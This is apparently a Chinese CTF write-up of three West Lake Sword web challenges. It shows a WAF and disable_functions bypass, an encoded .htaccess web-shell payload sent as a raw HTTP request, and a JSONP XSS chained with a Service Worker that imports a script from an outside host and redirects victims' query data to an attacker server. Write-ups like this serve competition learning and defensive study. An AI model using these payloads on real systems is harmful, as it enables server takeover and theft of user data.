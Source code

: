 # 西湖论剑

## NewUpload

hint:
我装了宝塔 waf，apache 环境，自己本地配一套这种环境就知道怎么弄了。
看看宝塔自己装的 apache 有什么东西？

%00干掉宝塔waf





任意文件上传过滤php关键字
上传.htaccess绕过
普通的payload并不适用与php-fpm通信
在`/www/server/panel/vhost/apache`下发现php的解析方式

```
 #PHP
    <FilesMatch \.php$>
            SetHandler "proxy:unix:/tmp/php-cgi-74.sock|fcgi://localhost"
    </FilesMatch>
```

直接设置`SetHandler "proxy:unix:/tmp/php-cgi-74.sock|fcgi://localhost"`，访问我们上传的后门并不行，查了下资料发现php-fpm有security.limit_extensions限制了php脚本的后缀名，它的默认值是:` .php .phar`

所以我们上传phar文件getshell,getshell后发现，我们需要readflag而，命令执行函数都被干掉了，php版本是php 7.4.10




```
passthru,exec,system,putenv,chroot,chgrp,chown,shell_exec,popen,proc_open,pcntl_exec,ini_alter,ini_restore,dl,openlog,syslog,readlink,symlink,popepassthru,pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wifcontinued,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,imap_open,apache_setenv
```

把https://github.com/Explorersss/exploits中的脚本试过一边后都不行

但是这里php-fpm服务是通过socket文件通信的，我们可以直接打php-fpm绕过disable function

https://gist.githubusercontent.com/Explorersss/452ba2ed228dee841ac474b5d96f1581/raw/dc35576e0a4448b33da381fd2980d586aedc4e01/bypass_disable_function_by_fpm.php



## easyjson

```php
<?php
include 'security.php';

if(!isset($_GET['source'])){
    show_source(__FILE__);
    die();
}
$sandbox = 'sandbox/'.sha1($_SERVER['HTTP_X_FORWARDED_FOR']).'/';
var_dump($sandbox);
if(!file_exists($sandbox)){
    mkdir($sandbox);
    file_put_contents($sandbox."index.php","<?php echo 'Welcome To Dbapp OSS.';?>");
}
$action = $_GET['action'];
$content = file_get_contents("php://input");


if($action == "write" &&  SecurityCheck('filename',$_GET['filename']) &&SecurityCheck('content',$content)){
    $content = json_decode($content);
    $filename = $_GET['filename'];
    $filecontent = $content->content;
    $filename = $sandbox.$filename;
    file_put_contents($filename,$filecontent."\n Powered By Dbapp OSS.");
}elseif($action == "reset"){
    $files = scandir($sandbox);
    foreach($files as $file) {
        if(!is_dir($file)){
            if($file !== "index.php"){
                unlink($sandbox.$file);
            }
        }
    }
}
else{
    die('Security Check Failed.');
}
```



```
POST /?source=1&action=write&filename=index.php HTTP/1.1
Host: easyjson.xhlj.wetolink.com
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.75 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 439

{"\u0063\u006f\u006e\u0074\u0065\u006e\u0074":"\u0070\u0068\u0070\u005f\u0076\u0061\u006c\u0075\u0065\u0020\u0061\u0075\u0074\u006f\u005f\u0070\u0072\u0065\u0070\u0065\u006e\u0064\u005f\u0066\u0069\u006c\u0065\u0020\u0022\u002e\u0068\u0074\u0061\u0063\u0063\u0065\u0073\u0073\u0022\u000a\u0023\u003c\u003f\u0070\u0068\u0070\u0020\u0065\u0076\u0061\u006c\u0028\u0024\u005f\u0050\u004f\u0053\u0054\u005b\u0031\u005d\u0029\u003b\u003f\u003e"}
```

flag{a5db5397505f825334aa4dfc17d3bb9f}

## hardxss

在登入接口发现如下代码：

```javascript
callback = "get_user_login_status";
		auto_reg_var();
		if(typeof(jump_url) == "undefined" || /^\//.test(jump_url)){
			jump_url = "/";
		}
		jsonp("https://auth.hardxss.xhlj.wetolink.com/api/loginStatus?callback=" + callback,function(result){
			if(result['status']){
				location.href = jump_url;
			}
		})
		function jsonp(url, success) {
		    var script = document.createElement("script");
		    if(url.indexOf("callback") < 0){
		    	var funName = 'callback_' + Date.now() + Math.random().toString().substr(2, 5);
		    	url = url + "?" + "callback=" + funName;
		    }else{
		    	var funName = callback;
		    }
		    window[funName] = function(data) {
		        success(data);
		        delete window[funName];
		        document.body.removeChild(script);
		    }
		    script.src = url;
		    document.body.appendChild(script);
		}
		function auto_reg_var(){
			var search = location.search.slice(1);
			var search_arr = search.split('&');
			for(var i = 0;i < search_arr.length; i++){
				[key,value] = search_arr[i].split("=");
				window[key] = value;
			}
		}
```

利用jsonp任意xss

view-source:https://xss.hardxss.xhlj.wetolink.com/login?callback=jsonp(%22//ffffuck.free.beeceptor.com/%22);

利用Service Workers从xss.hardxss.xhlj.wetolink.com移动到auth.hardxss.xhlj.wetolink.com

https://xss.hardxss.xhlj.wetolink.com/login?callback=jsonp(%22//abcde.free.beeceptor.com/2%22);//

2:

```javascript
document.domain="hardxss.xhlj.wetolink.com";
a=document.createElement("iframe");
a.src="https://auth.hardxss.xhlj.wetolink.com";
document.body.append(a);
document.getElementsByTagName("iframe")[0].addEventListener("load",()=>{fuck()})
function fuck(){
    var code = `navigator.serviceWorker.register("/api/loginStatus?callback=self.importScripts('//serviceworker.free.beeceptor.com/exp.js');//")`;
    document.getElementsByTagName("iframe")[0].contentWindow.eval(code);
}

```

/:

```javascript
self.addEventListener('fetch', function(event) {
  event.respondWith(new Response('<html><script>document.location.href="http://ccreater.top:60000/?"+document.location.search</script></html>',{headers: { 'Content-Type': 'text/html' }}));
});
```

![image-20201015222759973](https://raw.githubusercontent.com/Explorersss/photo/master/20201015222800.png)

![image-20201015222516258](https://raw.githubusercontent.com/Explorersss/photo/master/20201015222516.png)

详细说明见：http://blog.ccreater.top/2020/10/15/Service%20Worker/